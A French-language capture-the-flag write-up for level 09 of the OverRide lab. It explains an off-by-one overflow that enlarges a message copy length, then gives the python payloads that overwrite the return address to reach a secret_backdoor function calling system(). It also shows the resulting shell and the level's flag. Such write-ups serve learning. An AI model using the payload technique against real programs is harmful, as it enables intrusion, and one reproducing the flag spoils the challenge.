


# Level 09 (bonus)

### Protections



*Note: Bien que **PIE** soit active, l'ASLR n'est pas actif sur le systeme. PIE n'a alors aucun effet.*

### Analyse



*Ce programme a ete un peu plus difficile a retranscrire en C, apres pas mal d'analyse sur l'Assembleur, on a reconstituer une structure (voir source.c), les decompilateurs n'ont pas beaucoup aides sur ce coup.*

La fonction `main()` fait un appel direct a la fonction `handle_msg()`.

`handle_msg` creer notre structure, initialise le tableau `user_data->username` a 0 et l'int32_t `user_data->msg_length` a 140. La fonction appelle ensuite `set_username(&user_data)` et `set_msg(&user_data)` avant de `puts(">: Msg sent!")`.

`set_username()` prepare un buffer de 128 octets afin de `fgets(buffer, 128, stdin)`. Il copie ensuite 40 octets dans `user_data->username`. **En fait non! 41 octets! Buffer overflow possible ici.** En assembleur, l'instruction est `jg` (Jump if greater) ou plus simplement: `index <= 40` en C. La fonction se termine pas un `printf(">: Welcome, %s", user_data->username)`.

`set_msg()` prepare un buffer de 1024 octets afin de `fgets(buffer, 1024, stdin)`. Le fait un `strncpy()` de longueur `user_data->msg_length` (140) dans `user_data->message`.

Une mysterieuse fonction `secret_backdoor()` est presente a l'adresse **0x000055555555488c**. Celle-ci fait un appel `system()` avec un `fgets()` donc cela peut nous permettre de faire un `cat /home/users/end/.pass`

*NX est actif, cela annule la supposition d'un Shellcode*

### Exploitation

Nos etudes sur l'assembleur et le debogage nous ont permis de savoir que `user_data->username` est a 140 octets du pointeur initial et que `user_data->msg_length` est a 180 octets.

Ceci etant dit, cela signifie que le `strncpy()` de `set_username()` nous permet d'ecraser 1 octets de `user_data->msg_length`.

On sait que:

* Un int32_t fait 4 octets.
* La memoire est disposee en Little-Endian (de maniere inversee)

De base `user_data->msg_length` fait 140, on peut se le representer de cette maniere en hexadimal: `8c 00 00 00`.

**La valeur maximale qu'on peut stocker sur 1 octet est 255**. **On peut essayer de l'ecraser et de mettre un message de 255 octets** pour voir si cela change quelques chose. *Dans le meilleur des cas, on ecrase le saved-eip.*

```
level09@OverRide:~$ (python -c 'print "A"*40 + "\xff" + "\n" + "A"*255') | ./level09 
--------------------------------------------
|   ~Welcome to l33t-m$n ~    v1337        |
--------------------------------------------
>: Enter your username
>>: >: Welcome, AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA�>: Msg @Unix-Dude
>>: >: Msg sent!
Segmentation fault (core dumped)
```

Eureka! Avec le debogage **GDB** ou un **Overflow Pattern Generator**, l'ecrasement du saved-eip se confirme a un offset de 200 octets.

Il nous suffit donc de recuperer l'adresse de `secret_backdoor()` et le tour est joue!

```
(gdb) b *main+16
(gdb) run
(gdb) disas secret_backdoor
Dump of assembler code for function secret_backdoor:
   0x000055555555488c <+0>:     push   %rbp
   .................. .....     ....   ....

```

`(python -c 'print "A"*40 + "\xff" + "\n" + "\x90"*200 + "\x8c\x48\x55\x55\x55\x55\x00\x00"'; cat)`

```
level09@OverRide:~$ (python -c 'print "A"*40 + "\xff" + "\n" + "\x90"*200 + "\x8c\x48\x55\x55\x55\x55\x00\x00"'; cat) | ./level09
--------------------------------------------
|   ~Welcome to l33t-m$n ~    v1337        |
--------------------------------------------
>: Enter your username
>>: >: Welcome, AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA�>: Msg @Unix-Dude
>>: >: Msg sent!
whoami
end

```

Flag: **j4AunAPDXaJxxWjYEUxpanmvSgRDV3tpA5BEaBuE**
